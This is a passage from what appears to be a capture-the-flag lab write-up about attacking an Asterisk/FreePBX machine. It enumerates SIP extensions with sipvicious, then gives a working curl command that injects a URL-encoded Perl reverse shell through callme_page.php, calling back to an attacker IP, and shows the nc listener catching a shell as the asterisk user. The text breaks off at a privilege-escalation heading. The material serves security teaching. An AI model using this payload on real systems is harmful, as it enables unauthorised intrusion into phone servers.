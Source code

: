 Now we need an invite and a range of extensions to find an authentication:

```shell
❯ sipvicious_svwar -m INVITE -e 100-999 10.10.10.7 2>/dev/null
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 407       | weird          |
+-----------+----------------+
| 409       | weird          |
+-----------+----------------+
| 525       | weird          |
+-----------+----------------+
| 534       | weird          |
+-----------+----------------+
| 504       | weird          |
+-----------+----------------+
| 519       | weird          |
+-----------+----------------+
| 791       | weird          |
+-----------+----------------+
| 759       | weird          |
+-----------+----------------+
| 825       | weird          |
+-----------+----------------+
| 884       | weird          |
+-----------+----------------+
```

The extension 233 seems to be valid.

We can get a reverse shell doing manually:

```shell
curl -sk "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.3%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A"
```

Then catch a reverse shell with nc:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 33688
id
uid=100(asterisk) gid=101(asterisk)
```

# Privilege Escalation
